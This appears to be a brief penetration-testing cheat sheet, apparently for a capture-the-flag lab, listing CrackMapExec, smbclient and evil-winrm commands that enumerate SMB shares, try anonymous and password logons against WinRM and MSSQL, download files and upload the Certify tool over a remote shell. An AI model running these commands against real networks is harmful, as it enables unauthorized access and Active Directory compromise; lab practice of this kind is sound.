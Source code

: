 
# Get DNS & Domain from nmap
# cme smb
- Get hostname (add hostname.domain & hostname to etc/hosts)
```
cme smb 10.10.11.187
cme smb 10.10.11.187 --shares
cme smb 10.10.11.187 -u 'DoesNotExist' -p '' --shares
cme winrm 10.10.11.187 -u 'publicuser' -p 'password1'
cme mssql 10.10.11.187 --local-auth -u 'publicuser' -p 'password1' -L
smbclient -L //10.10.11.187/Public       (where Public is the share)
smbclient -N //10.10.11.187/Public       (-N for no password)
get "file.pdf"                           (download file from smb)
```


# evil-winrm
```
evil-winrm -i 10.10.14.6 -u 'sql_user' -p 'password'
upload Certify.exe
```